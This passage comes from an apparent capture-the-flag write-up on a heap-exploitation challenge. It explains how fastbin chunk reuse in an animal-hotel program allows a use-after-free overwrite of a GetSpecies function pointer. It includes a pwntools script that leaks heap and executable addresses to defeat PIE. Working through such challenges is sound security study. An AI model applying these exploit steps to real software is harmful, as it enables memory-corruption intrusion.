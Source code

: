 ![finding GetSpecies in gdb](./images/getspecies.png "finding GetSpecies in gdb")

We can see that it references the class it belongs to (in this case Cat), specifically the address of the GetSpecies method. This is used by the code in the `ViewRoom()` function. Keep in mind that the animal entry contains a pointer to the address of `GetSpecies`. All of this means that if we manage to overwrite the pointer to the address of `GetSpecies` with a pointer to the address of `win` we win.

Another important thing to notice is the size of the chunk we created with our registered data was the same size as the animal chunks when we only asked for 10 bytes of data. This is very good, because the way the heap works is that when it is going to allocate fast bins, it first looks for an unused bin with the correct size before creating a new one. We can take advantage of this by registering a data chunk to room 0 (after first creating room 0), freeing that chunk and checking in a new animal (creating a new animal chunk). Assuming the data chunk was 0x20 bytes big, the new animal should be stored where the data of the animal in room 0 used to be. If we then write data to the animal in room 0 again, it still has the same data pointer so it will overwrite whatever is stored in the animal chunk we created last, including the `GetSpecies` pointer.

Now we just need to know what to overwrite it with. As PIE is enabled we will need to leak some addresses, both heap and executable. We can attempt to this by creating rooms over the freed data chunk of another room and viewing that other room. After some trial and error i discovered that the following code leaks both heap and executable (you can do the same manually or scroll to the bottom and copy the functions i created):

```py
log.info("Checking a cat into room 0 and a dog into room 1")
CheckIn(0,1)
CheckIn(1,2)

log.info("Placing 8 A's in room 0 and 8 B's in room 1")
RegisterNewData(0, 10, "A"*8) 
RegisterNewData(1, 10, "B"*8)

log.info("Deleting data from room 0 and 1")
DeleteRoom(0)
DeleteRoom(1)

log.info("Checking cat into room 7")
CheckIn(7, 1)

ViewRoom(0) 
p.recvuntil(b"We have registered the following data on the guest:")
p.recvline()
leak = u64(p.recvline()[:8].strip().ljust(8,b"\x00"))
heap_leak = hex(leak) + "ef0" # I will explain this

log.success(f"heap: {heap_leak}")

log.info("Checking dog into room 7")
CheckIn(7, 2) 

ViewRoom(0) 
p.recvuntil(b"We have registered the following data on the guest:")
p.recvline()
func_leak = u64(p.recvline()[:8].strip().ljust(8,b"\x00"))
log.success(f"get species: {hex(func_leak)=}")
```
